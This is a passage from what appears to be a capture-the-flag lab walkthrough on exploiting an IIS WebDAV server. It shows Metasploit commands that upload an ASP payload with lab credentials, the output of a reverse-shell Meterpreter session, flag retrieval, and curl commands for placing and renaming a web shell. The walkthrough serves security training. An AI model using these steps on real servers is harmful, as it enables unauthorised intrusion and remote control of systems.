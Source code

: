 **Key Findings:**
- ASP files: PUT = SUCCEED, EXEC = SUCCEED
- Authentication required: Basic Auth (bob:password_123321)
- Upload directory permissions: Write enabled

#### Phase 5: Automated Exploitation
```bash
# Launch Metasploit
msfconsole -q

# Configure WebDAV exploit
use exploit/windows/iis/iis_webdav_upload_asp
set RHOSTS demo.ine.local  
set HttpUsername bob
set HttpPassword password_123321
set PATH /webdav/metasploit%RAND%.asp
exploit
```

**Successful Exploitation Output:**
```
[*] Started reverse TCP handler on 10.10.31.2:4444
[*] Uploading 609542 bytes to /webdav/metasploit159423466.txt...
[*] Moving /webdav/metasploit159423466.txt to /webdav/metasploit159423466.asp...
[*] Executing /webdav/metasploit159423466.asp...
[*] Meterpreter session 1 opened (10.10.31.2:4444 -> 10.0.28.105:49740)

meterpreter >
```

#### Phase 6: Post-Exploitation
```bash
# Meterpreter shell access
shell

# System navigation and flag retrieval
cd /
dir
type flag.txt
```

**Post-Exploitation Results:**
```
Microsoft Windows [Version 10.0.17763.1457]
c:\>type flag.txt
d3aff16a801b4b7d36b4da1094bee345
```

---

## 🔧 WebDAV HTTP Methods and Manual Exploitation

### Core WebDAV Methods
| Method | Purpose | Example Usage |
|--------|---------|---------------|
| **PUT** | Upload file | `curl -X PUT --data-binary @shell.asp http://target/webdav/shell.asp` |
| **GET** | Download file | `curl http://target/webdav/file.txt` |
| **DELETE** | Remove file | `curl -X DELETE http://target/webdav/shell.asp` |
| **MKCOL** | Create directory | `curl -X MKCOL http://target/webdav/newdir/` |
| **COPY** | Copy resource | `curl -X COPY -H "Destination: /webdav/copy.asp" http://target/webdav/shell.asp` |
| **MOVE** | Move/rename | `curl -X MOVE -H "Destination: /webdav/moved.asp" http://target/webdav/shell.asp` |
